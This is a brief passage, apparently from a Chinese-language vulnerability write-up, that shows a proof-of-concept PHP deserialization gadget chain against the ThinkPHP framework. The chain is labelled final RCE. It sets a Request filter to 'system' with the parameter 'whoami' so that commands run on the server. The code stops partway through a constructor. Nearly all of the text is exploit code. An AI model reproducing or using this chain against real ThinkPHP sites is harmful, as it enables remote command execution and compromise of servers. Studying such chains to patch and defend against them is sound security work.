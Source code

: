 最终 RCE

### Poc

```plain
<?php

namespace think {
    abstract class Model
    {
        private $lazySave = true;
        private $data = ['a' => 'b'];
        private $exists = true;
        protected $withEvent = false;
        protected $readonly = ['a'];
        protected $relationWrite;
        private $relation;
        private $origin = [];

        public function __construct($value)
        {
            $this->relation = ['r' => $this];
            $this->origin = ["n" => $value];
            $this->relationWrite = ['r' =>
                ["n" => $value]
            ];
        }
    }

    class App
    {
        protected $request;
    }

    class Request
    {
        protected $mergeParam = true;
        protected $param = ["whoami"];
        protected $filter = "system";
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
    }
}

namespace think\route {

    use think\App;

    class Url
    {
        protected $url = "";
        protected $domain = "domain";
        protected $route;
        protected $app;

        public function __construct($route)
        {
```